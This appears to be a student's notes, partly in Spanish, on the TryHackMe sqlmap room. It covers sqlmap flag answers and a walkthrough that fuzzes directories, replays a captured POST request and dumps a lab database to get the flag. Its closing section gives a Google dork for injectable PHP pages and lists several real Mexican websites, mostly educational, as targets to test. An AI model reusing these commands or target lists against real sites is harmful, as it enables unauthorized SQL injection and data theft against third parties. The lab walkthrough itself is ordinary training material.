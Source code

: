 


https://tryhackme.com/r/room/sqlmap

- antes de probar borrar historial de sqlmap
```
/home/kali/.local/share/sqlmap/
```

##  Task 1 Introduction
  


## Task 2 - Using Sqlmap


`sqlmap -h`
`sqlmap -hh`

**Basic** commands:
**Enumeration** commands:
Operating System access commands


### Which flag or option will allow you to add a URL to the command?

-u

### Which flag would you use to add data to a POST request?

--data

### There are two parameters: username and password. How would you tell sqlmap to use the username parameter for the attack?

-p username


### Which flag would you use to show the advanced help menu?

-hh

Which flag allows you to retrieve everything?

-a

Which flag allows you to select the database name?

-D

Which flag would you use to retrieve database tables?

--tables

Which flag allows you to retrieve a table’s columns?

--columns

Which flag allows you to dump all the database table entries?

--dump-all

Which flag will give you an interactive SQL Shell prompt?

--sql-shell

You know the current db type is 'MYSQL'. Which flag allows you to enumerate only MySQL databases?

--dbms=mysql

## Task 3 SQLMap Challenge


### What is the name of the interesting directory ?

	blood

```
ffuf -u http://10.10.156.125/FUZZ -w /tools/seclists/Discovery/Web-Content/big.txt -t 100
```

### Who is the current db user? 

https://10.10.217.247/blood/nl-search.php

- copiar el request a un archivo, primero el request, luego el parametro

```
POST /blood/nl-search.php HTTP/1.1
Host: 10.10.156.125
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://10.10.156.125
Connection: keep-alive
Referer: http://10.10.156.125/blood/nl-search.php
Cookie: PHPSESSID=c6sb25adrd80s57hb1s0riejg3
Upgrade-Insecure-Requests: 1
Priority: u=0, i

blood_group=Select Your Blood Group

```


```
sqlmap -r req 

sqlmap -r req  --current-user
current user: 'root@localhost'
```


	root

### What is the final flag?



`thm{sqlm@p_is_L0ve}`


```
sqlmap -r req  --dbs
sqlmap -r req  --dbs -D blood
sqlmap -r req  --dbs -D blood --tables
sqlmap -r req  --dbs -D blood -T flag --columns 
 
sqlmap -r req  --dbs -D blood -T flag --dump

+----+---------------------+--------+
| id | flag                | name   |
+----+---------------------+--------+
| 1  | thm{sqlm@p_is_L0ve} | flag   |
+----+---------------------+--------+

```


## busquedas

```
site:mx inurl:php?id=
```

### Casos para probar 

http://php.cobachbc.edu.mx/repositorio/index.php?id=262
http://guiadecarreras.udg.mx/app_guiacarrera/testorientacion-nuevo.php?id=101
https://www.mexico2.com.mx/proyectos.php?id=21
http://www.uno.edu.mx/plantilla.php?id=9
http://www.ulm.edu.mx/index.php?option=com_content&task=category&sectionid=22&id=114&Itemid=220&Itemid=222&Itemid=222



 